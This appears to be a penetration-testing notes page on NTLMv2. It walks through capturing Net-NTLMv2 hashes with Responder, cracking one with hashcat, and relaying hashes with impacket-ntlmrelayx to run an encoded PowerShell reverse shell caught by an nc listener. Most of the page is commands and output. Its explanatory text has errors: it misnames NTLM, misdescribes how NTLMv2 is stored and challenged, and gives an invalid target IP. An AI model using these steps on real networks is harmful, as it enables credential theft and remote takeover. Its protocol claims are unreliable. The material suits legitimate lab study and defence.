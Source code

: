 # NTLMv2

New Technology Network Manager v2 is, you guessed it, the updated (and more widely used) version of NTLM. It is stored as **HMAC-MD5** hash in SAM.

NTLMv2's challenge is a timestamp rather than a randomly generated number (NTLM), the timestamp is hashed with the users password and is sent as the response.

## Cracking Net-NTLMv2

### Responder

Responder includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes.

{% embed url="https://www.kali.org/tools/responder/" %}

### Start Responder

<pre class="language-powershell"><code class="lang-powershell">kali@kali:~$ ip a
...
3: tap0: &#x3C;BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 42:11:48:1b:55:18 brd ff:ff:ff:ff:ff:ff
    inet <a data-footnote-ref href="#user-content-fn-1">192.168.119.2</a>/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::4011:48ff:fe1b:5518/64 scope link 
       valid_lft forever preferred_lft forever

kali@kali:~$ sudo responder -I tap0 
<strong>                                         __
</strong>  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR &#x26; MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
</code></pre>

### Request Access to Non-Existent Share

We want to request access to a share that we don't have access to in order to query the authentication protocol. _<mark style="color:red;">**Note**</mark>_: **The IP we're querying is the IP of our Kali machine!**&#x20;

```powershell
C:\Windows\system32>dir \\192.168.119.2\test
dir \\192.168.119.2\test
Access is denied.
```

### Capturing NTLMv2 Hash

```
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:
010100000000000000B050CD1777D801B7585DF5719A
CFBA0000000002000800360057004D00520001001E00570049004E002D00340
044004E004800550058004300340054004900430004003400570049004E002D
00340044004E00480055005800430034005400490043002E00360057004D005
2002E004C004F00430041004C0003001400360057004D0052002E004C004F00
430041004C0005001400360057004D0052002E004C004F00430041004C00070
0080000B050CD1777D801060004000200000008003000300000000000000...
```

### Cracking with Hashcat

We'll save the output of reponder and use Hashcat with our wordlist to crack the NTLMv2 hash.

```shell-session
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e...00000000000000:123Password123
...
```



## NTLM Relay Attack

Sometimes we obtain a Net-NTLMv2 hash but cant crack it. **If the hash we obtained is from a local administrator, we can use it to authenticate over SMB** like we do with psexec or wmiexec.

<mark style="color:red;">**IMPORTANT**</mark>: SMB Signing must be disabled to perform a relay attack!

### NTL&#x4D;_&#x72;elayx - Impacket_

_We can use NTLMrelayx from impacket to relay the hash over SMB._

```
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

**--no-http-server** disables the use of HTTP since we'll be using SMB manually.

**192.168.50.512** is the target. (The box we're trying to get access to)\
**powershell -enc JABjAGwAaQBl..** is the command to execute once authenticated. (Reverse shell)

### Start Listener

We will start a listener on our Attack host to catch the incoming response shell.

```
kali@kali$ nc -nvlp 8080
```

### Request Access to Non-Existent Share

Like we do with Responder, we will query our Attack host for a share to catch the Hash.

```
C:\Windows\system32>dir \\192.168.119.2\test
Access is denied.
```

#### Check Back on the NC Listener and you should have a shell! (Assuming your powershell command works)

_<mark style="color:red;">**NOTE:**</mark>_ Here are some resources for building a powershell command to be executed once the Net-NTLMv2 hash is relayed. (By Impacket)

AGAIN FOR RELAYING TO WORK WE MUST HAVE LOCAL ADMIN!&#x20;

{% embed url="https://www.revshells.com/" %}

[^1]: 
